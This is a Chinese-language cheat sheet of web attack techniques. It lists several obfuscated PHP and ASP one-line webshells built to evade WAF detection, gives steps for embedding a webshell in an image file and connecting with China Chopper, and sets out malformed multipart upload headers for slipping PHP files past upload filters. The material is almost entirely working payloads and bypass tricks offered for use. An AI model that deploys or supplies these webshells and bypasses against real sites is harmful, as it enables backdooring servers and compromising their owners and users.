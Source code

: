   
## webshell过waf
### （1）使用字符串拼接关键词：
`<?php $_REQUEST['a']($_REQUEST['b']); ?>`
`<?php ($_=@$_GET[2]).@$_($_POST[sz])?>`
`<?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["sz"]); ?>`
`<?php $k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);?>`
`<?php $a = "a"."s"."s"."e"."r"."t";  $a($_POST["sz"]); ?>`
`<%eval""&("e"&"v"&"a"&"l"&"("&"r"&"e"&"q"&"u"&"e"&"s"&"t"&"("&"0"&"-"&"2"&"-"&"5"&")"&")")%>`
`<%a=request("gold")%><%eval a%>`
### （2）使用字符编码：
`<%Eval(Request(chr(112)))%>`
`<%eval (eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("xindong"))%>`
### （3）一句话过waf
* 使用动态传参，不构成waf查杀的函数
* 或者使用菜刀软件
* 当客户端怎么都过不掉waf时，可以将大马进行免杀
* 使用站马分离（上传免杀小马，其中使用远程代码加载大马代码到目标服务器上执行）有时需要改写大马代码
### （4）大马免杀
* 可以使用图片码绕过waf
* 可以使用站马分离
### （5）一句话图片木马
* 寻找图片使用c32或者hex打开的软件打开图片
* 将一句话木马插入到图片中
* 实验将图片上传到服务器，并且更改后缀为服务器对应的脚本
* 使用菜刀或者webshell连接器进行连接，如果不成功则是图片中的某些字符干扰了一句话木马，跟换图片再试
* 上传图片格式配置解析漏洞拿shell
* 文件包含拿shell
#主体/Webshell  #方面/绕过方法  #主体/Waf 


## 上传过waf
### （1）长度绕过，增加垃圾长度
`Content-Disposition：for++++++++++++++++m-data；name=“upfile”；filename=“1.php”`
`Content-Disposition：form-data；name=“upfile”；ahfoaweihaoiehwnv；filename=“1.php”`
### （2）文件名称引号不对称
`filename=“1.php`
`filename=”1.php“”`
### （3）文件名多个=号
`filename==========“1.php”`
### （4）文件名称里添加分号或者垃圾字符
`filename=“1 xvzdva&s；1.php”`
### （5）文件名称换行
`filename=`
`“1.php”`
### （6）删除bannery信息

